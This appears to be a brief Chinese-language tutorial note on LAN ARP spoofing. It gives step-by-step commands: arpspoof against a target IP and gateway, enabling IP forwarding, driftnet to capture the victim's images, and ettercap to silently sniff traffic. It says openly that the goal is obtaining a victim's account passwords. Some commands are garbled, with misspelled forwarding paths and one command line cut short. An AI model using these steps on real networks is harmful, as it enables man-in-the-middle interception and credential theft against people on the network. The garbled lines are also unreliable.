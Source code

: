 # 内网ARP欺骗
---


1、

互相ping，

2、

arp -a  看到ARP缓存表中有对应的记录。

3、

apt install dsniff ssldump

arpspoof进行流量劫持  arpspoof -i eth0 -t 目标IP 目标网关IP

4、

设置端口转发，监听对方流量并嗅探图片

echo 1 > /proc/sys/net/ipv4/ip_forwardd

driftnet -i eth0


---

echo 1 > /proc/sys/net/ipv4/ip_foward //开启ip转发

开启了ip转发，进行ARP欺骗，受害者计算机将不会断网，获取到受害者电脑的相关账号密码。

eth0 -t 192.168.0.100 -r 192.168.0.1，-t后面接目标电脑，-r可以省略，后面接网关ip地址，这里我们使用一台Windows7充当受害者，其他电脑同理。

另一个终端ettercap -Tq  -i eth0 回车，-Tq表示在文本模式下静默启动，-i后面表示监听的网卡。
